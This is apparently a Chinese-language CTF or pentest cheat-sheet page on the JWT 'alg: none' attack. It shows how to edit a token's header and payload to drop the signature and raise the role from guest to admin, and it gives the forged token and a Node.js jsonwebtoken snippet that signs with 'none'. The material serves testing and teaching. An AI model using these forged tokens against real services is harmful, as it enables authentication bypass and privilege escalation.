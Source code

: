 # 空加密

## 示例 1

admin admin 登陆 jwt 值为

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiIsInJvbGUiOiJndWVzdCJ9.1tg4f5ZwANJCK8gAzI1gL1-yGoB4DS8OXQDKXJRd-YU
```

格式为 `[算法].[Payload].[签名]`

| 修改前                                                 | 修改后                                                 |
| ------------------------------------------------------ | ------------------------------------------------------ |
| {"typ":"JWT","alg":"HS256"}                            | {"typ":"JWT","alg":`"none"`}                             |
| {"username":"admin","password":"admin","role":"guest"} | {"username":"admin","password":"admin","role":`"admin"`} |

算法替换为 "none", 然后转换回base64, 可以丢掉签名。

`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiIsInJvbGUiOiJhZG1pbiJ9.`

## 示例 2

nodejs 中的 jwt 库在签名时用 algorithm 指定算法，而在验签时用 algorithms 指定算法
在测试 jwt 相关的安全问题时可以使用 burpsuite 的 JOSEPH 插件辅助测试

```ts
// https://www.secpulse.com/archives/129304.html
// https://blog.csdn.net/miuzzx/article/details/127744431#t1
const jwt = require("jsonwebtoken")

var payload = {
  secretid: [],
  username: "admin"
}
var token = jwt.sign(payload, undefined, { algorithm: "none" })
console.log(token)
```

# Article

[浅析 JWT Attack](https://mp.weixin.qq.com/s/WvVgavjJMXSZQsVFtHEOhA)
[JWT 相关题目刷题](https://mp.weixin.qq.com/s/Ss9Oc2ZN7qFboBWaXfrDLA)
[『红蓝对抗』JWT 攻击手法](https://mp.weixin.qq.com/s/OVppZClKRWP8zNEBjZPRow)
[JWT 攻击手法——1](https://mp.weixin.qq.com/s/kkoskD6d69G59bRK8nyUdw)
